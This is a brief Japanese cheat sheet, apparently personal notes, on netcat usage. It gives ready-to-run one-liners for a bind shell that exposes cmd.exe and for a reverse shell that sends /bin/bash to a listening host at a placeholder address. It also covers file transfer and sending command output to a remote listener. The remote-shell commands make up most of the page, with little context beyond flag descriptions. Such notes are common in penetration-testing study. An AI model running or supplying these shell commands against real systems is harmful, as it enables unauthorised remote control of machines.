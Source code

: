 # ncを使ったバインドシェル他

## バインドシェル

バインドシェルは対象のportが空いてないと使えないことが難しいところ...

### ホスト

```
> nc.exe -lvp 5555 -e cmd.exe
```

-l: 待ち受け
-v: vervose
-p: port

![img](https://i.imgur.com/iz75nuZ.png)

### クライアント(対象)

```
$ nc xxx.xxx.xxx.xxx 5555
```

![img](https://i.imgur.com/JRziuK3.png)

## リバースシェル

### ホスト

```
$ nc -lvp 5555
```

![img](https://i.imgur.com/YniUhqL.png)

### クライアント(対象)

```
$ nc xxx.xxx.xx.xx 5555 -e /bin/bash
```

![img](https://i.imgur.com/DsuIgVh.png)

## ファイル転送

### 送る側

ポートを開いて受付をまつ

```
nc -lvp 4444 < hoge.txt
```

### 受け取る側

```
nc xxx.xxx.xxx.xxx 4444 > out.txt
```

## コマンドロギング

### ログ受け取り側

```
nc -lp 9999 >> log.txt
```

### 送る側(コマンドの実行結果)

```
date | nc -q 1 xxx.xxx.xxx.xxx 9999 
```